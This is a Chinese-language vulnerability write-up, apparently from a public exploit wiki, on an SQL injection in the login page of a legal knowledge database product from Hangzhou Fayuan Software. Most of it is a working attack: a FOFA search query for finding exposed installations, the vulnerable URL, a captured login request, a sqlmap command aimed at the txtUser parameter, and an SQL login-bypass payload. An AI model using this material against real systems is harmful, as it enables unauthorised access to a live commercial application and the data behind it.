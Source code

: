 ```yaml
---
title: 杭州法源软件 法律知识数据库系统 SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 实践教学平台
---
```


# 杭州法源软件 法律知识数据库系统 SQL注入漏洞

## 漏洞描述

杭州法源软件开发有限公司开发的实践教学平台系统下的法律知识数据库系统登录前台存在通用SQLi漏洞

## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 法律知识数据库系统

## FOFA

> [!NOTE]
>
> icon_hash="2018105215" || title="实践教学平台 - 杭州法源软件开发有限公司"

## 漏洞复现

进入页面如下

![](/img/20210924015618990356.png)

出现漏洞的Url为

```
http://xxxxxxx/JusRepos/ui/login.aspx
```

![](/img/20210924015619229650.png)

抓取登录的请求包

```
POST /JusRepos/ui/login.aspx HTTP/1.1
Host: xxx.xxx.xxx.xxxx
Content-Length: 362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=0upclbweiokwx4qnkpfzumir
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTE4NTUyMzg5NDNkZBLjR6E85W4xvkheqS5g7gOsMdeop3Xfh1BwnTSCbV7z&__VIEWSTATEGENERATOR=E3BBEDB7&__EVENTVALIDATION=%2FwEdAATFHpXckaPEvZEyN%2BNhIQGTDFTzKcXJqLg%2BOeJ6QAEa2jPSlu16Yx4QbiDU%2BdddK1MwoKxxc3z27YmfD4jI4gVsV9%2FpN02jZyPKj4JeL7G5UVenPtL%2FK1en7XvhZG5vyHk%3D&txtUser=admin&txtPwd=123&btnSub=%E7%99%BB%E5%BD%95
```

其中注入的参数为 POST数据中的 **txtUser** 参数, 保存为文件使用 Sqlmap跑一下

```
sqlmap -r sql.txt -p txtUser
```

![](/img/20210924015619482645.png)

同时还存在着万能密码可以直接登录后台

```
user: 1' or 1=1 --
pass: peiqi
```

![](/img/20210924015620999218.png)